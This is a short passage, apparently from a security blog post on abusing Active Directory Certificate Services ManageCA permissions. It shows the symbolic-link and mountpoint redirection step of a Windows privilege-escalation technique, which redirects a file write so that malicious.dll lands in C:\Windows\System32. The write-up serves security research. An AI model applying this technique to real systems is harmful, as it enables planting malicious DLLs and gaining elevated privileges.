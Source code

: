 We switch the mountpoint and create the symbolic links:

```cmd
C:\Workspace\MountPoint\ -> \RPC Control
Symlink 1: \RPC Control\pre63F0.tmp -> C:\Workspace\malicious.dll
Symlink 2: \RPC Control\target.txt -> C:\Windows\System32\malicious.dll
```

<img src="/assets/posts/2023-12-03-ad-cs-new-ways-to-abuse-manageca-permissions/image-20231203190111476.png" alt="image-20231203190111476" style="zoom:67%;" />

After this step:

```cmd
# After this step:
TMP file  : C:\Workspace\MountPoint\pre63F0.tmp -> C:\Workspace\malicious.dll
Dest file : C:\Workspace\MountPoint\target.txt -> C:\Windows\System32\malicious.dll
```
